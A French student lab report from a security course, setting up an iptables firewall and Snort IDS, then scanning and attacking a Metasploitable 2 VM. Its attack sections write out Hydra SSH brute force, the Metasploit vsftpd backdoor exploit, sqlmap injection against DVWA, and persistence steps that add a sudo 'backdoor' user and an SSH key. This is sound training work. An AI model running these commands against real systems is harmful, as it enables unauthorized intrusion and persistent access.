










# Mini-Projet 4
**Cours : Sécurité des Systèmes d'Information  ECE 2025-2026**

---

## Architecture utilisée

| Machine | Rôle | IP |
|---------|------|----|
| Kali Linux | Attaquant / Analyseur | `192.168.100.1` |
| Metasploitable 2 | Victime | `192.168.100.2` |

---

## Partie 4A – Configuration d'un firewall basique (iptables)

Tout d'abord on configure iptables sur **Kali** pour contrôler le trafic vers/depuis Metasploitable.

**1. Partir d'une base propre**
```bash
sudo iptables -F
sudo iptables -L -v
```

**2. Politique par défaut : bloquer tout le trafic entrant**
```bash
sudo iptables -P INPUT DROP
sudo iptables -P OUTPUT ACCEPT
```

**3. Autoriser le loopback**
```bash
sudo iptables -A INPUT -i lo -j ACCEPT
sudo iptables -A OUTPUT -o lo -j ACCEPT
```

**4. Autoriser SSH**
```bash
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

**5. Autoriser les communications avec Metasploitable**
```bash
sudo iptables -A INPUT -s 192.168.100.0/24 -j ACCEPT
```

**6. Règles supplémentaires**
```bash
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT    # Autoriser HTTP
sudo iptables -A INPUT -p tcp --dport 3389 -j DROP    # Bloquer RDP
```

**7. Sauvegarder les règles**
```bash
sudo apt install iptables-persistent -y
sudo iptables-save > /etc/iptables/rules.v4
```

**8. Vérification**
```bash
sudo iptables -L -v
```


**9. Test de connectivité**
```bash
ping 192.168.100.2     
ssh msfadmin@192.168.100.2 
```



La politique `INPUT DROP` par défaut applique le principe du **moindre privilège** au niveau réseau donc tout est bloqué sauf ce qu'on autorise explicitement.

---

## Partie 4B – IDS avec Snort

Snort tourne sur **Kali** et surveille le trafic vers et depuis Metasploitable.

**1. Installation**
```bash
sudo apt update && sudo apt install snort -y
```

**2. Sauvegarde et configuration**
```bash
sudo cp /etc/snort/snort.conf /etc/snort/snort.conf.bak
sudo nano /etc/snort/snort.conf
```

On effectue les modifications suivantes :
```bash
var HOME_NET 192.168.100.0/24
var EXTERNAL_NET !$HOME_NET
var INTERFACE eth0
```

On vérifie que cette ligne n'est pas commentée :
```
include $RULE_PATH/community.rules
```

Et on décommente ça:
```
output alert_syslog: LOG_AUTH
```

**3. Lancer Snort**
```bash
sudo snort -dev -i eth0 -c /etc/snort/snort.conf
```

**4. Générer des alertes depuis Kali vers Metasploitable**

Dans un autre terminal on fait :
```bash
nmap -p 1-1000 192.168.100.2
```

**5. Voir les alertes en temps réel avec les commandes suivantes**
```bash
sudo tail -f /var/log/auth.log
# ou
sudo tail -f /var/log/snort/alert
```

Snort analyse le trafic réseau et compare les paquets à des signatures d'attaques connues. Il détecte mais ne bloque pas (contrairement à un IPS). Le scan Nmap est immédiatement détecté car il correspond à des signatures connues.

---

## Partie 4C – Scan de ports avec Nmap

Tous les scans sont lancés depuis **Kali** vers **Metasploitable** `192.168.100.2`.

**1. Scan TCP SYN furtif**
```bash
nmap -sS 192.168.100.2
```

**2. Scan de ports spécifiques**
```bash
nmap -p 22,80,443,3306,8180 192.168.100.2
nmap -p 1-1000 192.168.100.2
```

**3. Scan UDP**
```bash
sudo nmap -sU 192.168.100.2
```

**4. Détection des versions de services**
```bash
nmap -sV 192.168.100.2
```

**5. Détection de l'OS**
```bash
sudo nmap -O 192.168.100.2
```

**6. Scan complet combiné**
```bash
sudo nmap -sS -sV -O -p 1-65535 192.168.100.2
```
Voici les résultats de tous les scans :








**Analyse des résultats typiques sur Metasploitable :**

| Port | Service | Version | Risque |
|------|---------|---------|--------|
| 21/tcp | FTP | vsftpd 2.3.4 | Backdoor connue |
| 22/tcp | SSH | OpenSSH 4.7 | Version ancienne |
| 80/tcp | HTTP | Apache 2.2.8 | Failles web |
| 3306/tcp | MySQL | 5.0.51 | Accès base de données |
| 8180/tcp | HTTP | Apache Tomcat | Interface admin exposée |

Le scan Nmap constitue la phase de **reconnaissance** du pentest. Metasploitable est volontairement vulnérable et expose de nombreux services avec des versions anciennes et des failles connues.

---

## Partie 4D – Attaque simple (reconnaissance + exploitation)

**1. Scan initial de reconnaissance**
```bash
sudo nmap -sS -sV -p 1-65535 192.168.100.2
```

**2. Identifier un service vulnérable**

Metasploitable expose plusieurs cibles faciles comme :
- Port **21** → vsftpd 2.3.4 avec backdoor
- Port **22** → SSH avec brute force possible
- Port **80** → DVWA avec failles web

**3a. Attaque SSH par force brute Hydra**
```bash
# Vérifier que rockyou.txt est disponible
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# Lancer l'attaque
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.2
```

Dans mon cas hydra n'a pas fonctionné

**3b. Exploitation du backdoor vsftpd 2.3.4 (Metasploit)**
```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.100.2
run
# un shell s'ouvre sur Metasploitable
```



**3c. Enumération web**
```bash
dirb http://192.168.100.2
# ou
gobuster dir -u http://192.168.100.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Metasploitable est conçu pour être vulnérable — le backdoor vsftpd 2.3.4 est une vraie faille historique. Cela permet de voir concrètement comment une version logicielle non mise à jour peut compromettre un système entier en quelques secondes.

---

## Partie 4E – Méthodologie du pentest et rapport

### Les 5 phases appliquées à notre lab

**Phase 1 – Planification**
- Périmètre : Metasploitable (`192.168.100.2`)
- Type de test : boîte noire (on ne connaît pas les services à l'avance)
- Objectif : identifier et exploiter au moins une vulnérabilité

**Phase 2 – Reconnaissance**
```bash
# Scan complet
sudo nmap -sS -sV -O -p 1-65535 192.168.100.2

# Scan rapide
nmap -sS -F 192.168.100.2

# Scripts de vulnérabilités
nmap --script vuln 192.168.100.2
nmap -p 22 --script ssh-vuln* 192.168.100.2
nmap -p 21 --script ftp-vsftpd-backdoor 192.168.100.2
```

**Phase 3 – Analyse de vulnérabilités**
```bash
# Scanner les vulnérabilités connues
nmap --script vuln 192.168.100.2

# Recherche dans Metasploit
msfconsole
search vsftpd
search type:exploit name:apache
```

**Phase 4 – Exploitation**
```bash
# Backdoor FTP vsftpd
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.100.2
run

# Brute force SSH
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.2

# Injection SQL
sqlmap -u "http://192.168.100.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="security=low; PHPSESSID=<ton_cookie>" --dbs
```

**Phase 5 – Maintien de l'accès (post-exploitation)**
```bash
# Une fois connecté sur Metasploitable via SSH ou shell Metasploit :
# Créer un utilisateur backdoor
sudo useradd -m -p $(openssl passwd -1 motdepasse123) backdoor
sudo usermod -aG sudo backdoor

# Ajouter une clé SSH backdoor
echo "<cle_publique_kali>" >> ~/.ssh/authorized_keys
```
---

### Structure du rapport de pentest

**1. Résumé exécutif**
Metasploitable expose de nombreux services vulnérables. Plusieurs compromissions complètes ont été réalisées en moins de 5 minutes, démontrant un niveau de risque critique.

**2. Périmètre**
- Cible : Metasploitable 2 — `192.168.100.2`
- Attaquant : Kali Linux — `192.168.100.1`
- Type : boîte noire

**3. Outils utilisés**
Nmap, Hydra, Metasploit, dirb, sqlmap, Wireshark

**4. Vulnérabilités identifiées**

| Vulnérabilité | Port | Criticité | Preuve |
|---------------|------|-----------|--------|
| vsftpd 2.3.4 backdoor | 21/tcp | Critique | Shell root obtenu |
| SSH mot de passe faible | 22/tcp | Élevé | Hydra : msfadmin/msfadmin |
| DVWA SQL Injection | 80/tcp | Élevé | Dump base de données |
| DVWA XSS Reflected | 80/tcp | Moyen | Alerte JS exécutée |

**5. Recommandations**
- Mettre à jour tous les services (vsftpd, OpenSSH, Apache, MySQL)
- Renforcer les mots de passe et activer l'auth par clé SSH uniquement
- Désactiver les services inutiles (Telnet, FTP)
- Mettre en place un firewall restrictif et un IDS (Snort)

**6. Conclusion**
Metasploitable présente un niveau de sécurité insuffisant pour tout environnement de production. Les vulnérabilités identifiées permettent une compromission totale du système.

---

